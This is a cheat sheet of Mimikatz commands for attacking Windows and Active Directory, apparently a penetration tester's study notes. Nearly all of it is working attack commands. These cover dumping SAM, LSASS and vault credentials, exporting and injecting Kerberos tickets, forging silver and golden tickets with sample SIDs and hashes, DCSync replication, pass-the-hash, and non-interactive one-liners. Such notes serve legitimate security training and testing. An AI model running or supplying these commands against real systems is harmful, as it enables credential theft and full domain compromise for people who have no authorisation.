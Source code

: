 > Mimikatz uses admin rights on Windows to display passwords of currently logged in users in plaintext.


#Password_Attacks #Active_Directory_Authentication #NTLM_Hash

# Binary Location

Copy to current directory
```
cp /usr/share/windows-resources/mimikatz/x64/mimikatz.exe .
```

# Usage

Enable `SeDebugPrivilege`
```
privilege::debug
```
- Allows us to interact with a process owned by another account

Elevate to `SYSTEM` user privileges
```
token::elevate
```

Dump NTLM hashes from the local Security Account Manager (SAM)
```
lsadump::sam
```

Dump hashes of all logged-on users stored in LSASS including cached hashes.
```
sekurlsa::logonpasswords
```

Extract saved credentials in the Windows Vault
```
vault::list
```

Extract Kerberos tickets stored in memory 
```
sekurlsa::tickets
```
- TGS allows us access to only particular resources associated with those tickets
- TGT allows us to request a TGS for specific resources within the domain

Export Kerberos tickets stored in memory 
```
sekurlsa::tickets /export
```
- Parses the LSASS process space in memory for any TGT/TGS
- TGT/TGS saved to disk in the kirbi mimikatz format.

Verify newly exported Kerberos tickets
```
dir *.kirbi
```

Inject selected TGS into process memory
```
kerberos::ptt [0;12bd0]-0-0-69690000-salesman@cifs-web69.kirbi
```

Forging the service ticket (silver ticket) and injecting it into the current session
```
kerberos::golden /sid:S-1-5-21-1012417518-619054555-1643581859 /domain:heentai.com /ptt /target:web69.heentai.com /service:http /rc4:37f0cccd4a7142da54e2845fb2685809 /user:salesadmin
```
- Forging a silver ticket:
	- `/sid`
		- Domain SID
	- `/domain:`
		- Domain name
	- `/ptt`
		- Allows us to inject the forged ticket into the memory of the machine we execute the command on
	- `/target:`
		- Target where the SPN runs
	- `/service:`
		- SPN protocol
	- `/rc4:`
		- NTLM hash of the SPN
	- `/user:`
		- Any existing domain user
			- Since we can set the permissions and groups

Perform a domain controller synchronization
- Request NTLM hash of user by impersonating a domain controller using replication
```
lsadump::dcsync /user:hentai\salesadmin
```
- Requires current user to be in either: 
	- Domain Admins
	- Enterprise Admins
	- Administrators

#Pass_the_Hash #Over_Pass_the_Hash

Creating a process by passing the hash
```
sekurlsa::pth /user:hentaisalesman /domain:hentai.com /ntlm:187c334a36459def79db542f67b37069 /run:powershell
```
- `/user:`
	- User to run process as
- `/domain:`
	- Domain
- `/ntlm:`
	- NTLM hash of user to run process as
- `/run:`
	- specify the process to create E.g., PowerShell
- Over Pass the Hash
	- Generate a TGT by authenticating to a network share

Extract hashes from memory from LSASS.exe (LSA server)
```
lsadump::lsa /patch
```

Delete any existing Kerberos tickets
```
kerberos::purge
```

Creating a golden ticket
```
kerberos::golden /user:salesman /domain:hentai.com /sid:S-1-5-21-1379870269-650598969-1781884369 /krbtgt:fa8c77fa44f511873c6aec2f11ef3469 /ptt
```
- Forging a golden ticket:
	- `/user:`
		- Any existing domain user
			- Since we can set the permissions and groups
	- `/domain:`
		- Domain name
	- `/sid`
		- Domain SID
	- `krbtgt`
		- password hash of the _krbtgt_ user account
	- `/ptt`
		- Allows us to inject the forged ticket into the memory of the machine we execute the command on

Launch a new command prompt
```
misc::cmd
```

Run mimikatz not interactively
```
.\mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" "exit"
```
```
.\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "exit"
```
```
.\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::tickets /export" "exit"
```

Run mimikatz not interactively with powershell
```
$results = .\mimikatz.exe privilege::debug sekurlsa::logonpasswords exit
```
